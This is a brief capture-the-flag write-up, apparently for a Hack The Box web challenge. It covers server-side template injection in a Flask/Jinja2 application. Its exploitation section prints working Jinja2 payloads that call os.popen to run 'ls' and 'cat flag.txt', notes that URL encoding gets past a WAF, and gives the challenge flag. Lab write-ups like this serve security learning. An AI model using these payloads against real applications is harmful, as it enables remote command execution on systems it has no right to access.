





>[!quote]
>*Can you exploit this simple mistake?*

# Set up

-

# Information Gathering

Enumerated home page:

Enumerated reflection point:

# The Bug

Searched online for Flask/Jinja2 vulnerabilities:

- [https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/](https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/)
- [https://pequalsnp-team.github.io/cheatsheet/flask-jinja2-ssti](https://pequalsnp-team.github.io/cheatsheet/flask-jinja2-ssti)

PoC Server Side Template Injection:

# Exploitation

`{{request.application.__globals__.__builtins__.__import__('os').popen('ls').read()}}`

Url encoding everything is it possible to bypass the WAF:
`{{request.application.__globals__.__builtins__.__import__('os').popen('cat flag.txt').read()}}`

## Flag.txt

>[!success]
>`HTB{t3mpl4t3s_4r3_m0r3_p0w3rfu1_th4n_u_th1nk!}`